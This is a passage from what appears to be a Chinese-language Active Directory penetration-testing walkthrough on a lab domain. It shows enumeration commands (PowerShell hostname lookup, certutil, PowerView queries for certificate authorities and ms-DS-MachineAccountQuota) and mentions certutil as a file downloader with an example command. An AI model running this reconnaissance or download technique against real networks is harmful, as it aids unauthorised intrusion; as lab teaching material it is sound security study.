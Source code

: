 
![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956738-1919241773.png)

#### **

4.2、枚举 DNSHostname：PowerShell

**

亦或通过 powershell 命令查询，命令如下：

    [System.Net.Dns]::GetHostByName('Juggernaut-DC').HostName
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956392-142058113.png)

#### **

4.3、枚举证书颁发机构：certutil

**

**certutil** 是一个证书管理器，它的主要用途就是管理和证书相关的一切事务。此外，它还可以作为一个 http \[s\] 下载器使用，例如：`certutil.exe -urlcache -f https://www.example.org/file.exe file.exe`。

    certutil
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183957578-1722557039.png)

运行 certutil 时，如果不附加任何参数，它默认会以“-dump”命令运行，并提供上述信息。由此我们可以提取 CA 的名称，同时还可以看到 DC 的 DNSHostname 也显示在了此处。

#### **

4.4、枚举证书颁发机构：PowerView.ps1

**

可以利用 [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) 来枚举证书颁发机构并提取所需的信息。

    . .\PowerView.ps1
    Get-DomainObject -SearchBase "CN=Certification Authorities,CN=Public Key Services,CN=Services,CN=Configuration,DC=juggernaut,DC=local" | select name
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956147-54604046.png)

#### **

4.5、枚举 ms-DS-MachineAccountQuota：PowerView.ps1

**

也可以使用 PowerView 查找域中的 ms-DS-MachineAccountQuota 的值。

    Get-DomainObject -Identity ((Get-Domain).distinguishedname) | select ms-DS-MachineAccountQuota
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183955665-299796927.png)
